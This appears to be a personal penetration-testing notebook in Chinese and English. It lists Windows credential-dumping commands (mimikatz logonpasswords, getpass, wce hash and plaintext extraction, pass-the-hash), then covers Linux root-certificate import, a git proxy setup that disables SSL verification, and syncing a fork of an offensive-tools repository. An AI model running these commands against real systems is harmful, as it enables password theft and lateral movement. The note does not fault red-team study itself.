 ### User Right Assignment (URA)

- https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment

### 抓Windows密码

- mimikatz

	- privilege::debug
sekurlsa::logonpasswords

- getpass.exe
- wce

	- 获取hash值: wce.exe -o output.txt
	- 获取明文: wce.exe  -w
	- PTH: wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

## Linux导入根证书

### openssl x509 -inform der -in QiAnXin\ Enterprise\ Security\ SSL\ CA.cer -out QiAnXin\ Enterprise\ Security\ SSL\ CA.crt
mkdir /usr/share/ca-certificates/extra
cp QiAnXin\ Enterprise\ Security\ SSL\ CA.crt /usr/share/ca-certificates/extra/QAX.crt

dpkg-reconfigure ca-certificates
或
/etc/ca-certificates.conf
添加一行extra/foo.crt
update-ca-certificates

reboot

## git下载问题

### git config --global http.proxy http://proxy.lfk.360es.cn:3128
git config --global http.sslVerify false

## git拉取更新仓库

### git clone https://github.com/Scotoma8/Minimalistic-offensive-security-tools
cd Minimalistic-offensive-security-tools\
git remote add source https://github.com/InfosecMatter/Minimalistic-offensive-security-tools
git remote -v
git fetch source
git branch -av
git checkout master
git merge source/master
git commit -am 'update'
git push origin

